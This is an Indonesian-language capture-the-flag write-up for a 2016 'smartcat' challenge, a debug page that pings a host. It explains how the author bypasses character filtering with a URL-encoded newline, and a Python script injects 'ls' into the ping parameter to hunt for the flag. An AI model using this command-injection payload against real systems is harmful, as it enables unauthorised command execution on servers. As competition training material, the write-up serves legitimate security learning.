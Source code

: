 Deskripsi soal:

<pre>
Damn it, that stupid smart cat litter is broken again. Now only the debug interface is available ( http://smartcat.insomnihack.ch/cgi-bin/index.cgi )and this stupid thing only permits one ping to be sent! I know my contract number is stored somewhere on that interface but I can't find it and this is the only available page! Please have a look and get this info for me 
FYI: No need to bruteforce anything there. If you do you'll be banned permanently
</pre>

CTF pertama ditahun 2016, soal - soal yang ada pada kompetisi ini cukup menarik, menantang dan juga sulit menurut saya. Mengenai penyelesaian soal, ini hanya satu - satunya soal yang dapat saya jawab, nah jadi disini kita diberikan sebuah situs yang dapat melakukan ping ke suatu host. Ada beberapa vulnerability yang saya pikirkan setelah melihat cara kerja situs ini, yakni vulnerability shellshock dan arbitrary command execution. Hal pertama yang saya lakukan ialah melakukan pengecekan shellshock vulnerability, tetapi ternyata tidak didapat vulnerability tersebut.

Pada vulnerability berikutnya adalah arbitrary command execution, untuk itu saya mencoba melakukan manual testing terlebih dahulu dengan memanfaatkan separator spasi ( termasuk spasi yang diencode (%20) ), semicolon (;), or (||), serta and (&&). Nampaknya tidak berhasil dan memberikan output salah satunya seperti berikut ini "Bad character ; in dest", mungkin karena pengaruh dari sanitasi di aplikasi tersebut. Sedikit susah nampaknya kalau tidak ada source codenya. Maka dari itu saya memutuskan untuk mencoba melakukan beberapa teknik bypass lainnya yaitu dengan memanfaatkan newline character ( \n ) yang diencode berarti menjadi %0a saat diterapkan pada nilai dibagian parameter. Berikut script pythonnya berdasarkan stagenya bisa diperhatikan dari cara kerja kodenya.

```python
import urllib2
import re

class Exploit:
    def __init__(self):
        self.exploit = ""

    def find_flag_stage1(self):
        self.exploit = "127.0.0.1%0Als"
        return self.exploit

class RunExploit:
    def __init__(self):
        self.url = "http://smartcat.insomnihack.ch/cgi-bin/index.cgi?dest=%s"

    def execute(self, params):
        url =  self.url % (params)
        read_url = urllib2.urlopen(url).read()
        if "INS{" in read_url:
            filtered = re.findall(r'INS{(.*)}', read_url)
            print filtered
        else: print read_url

def main():
    exploit = Exploit()
    deploy = exploit.find_flag_stage1()
    run = RunExploit().execute(deploy)

if __name__ == '__main__':
    main()
```
